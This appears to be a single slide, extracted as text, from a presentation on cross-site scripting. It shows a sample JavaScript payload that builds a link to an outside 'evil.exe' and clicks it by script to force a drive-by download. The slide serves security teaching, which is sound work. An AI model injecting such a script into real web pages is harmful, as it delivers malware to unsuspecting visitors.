

# Cross-Site Scripting (XSS)
XSS could allow attackers to
Forcing the Download of a File:
<script>var link = document.createElement('a'); link.href = 'http://site.com/evil.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>
141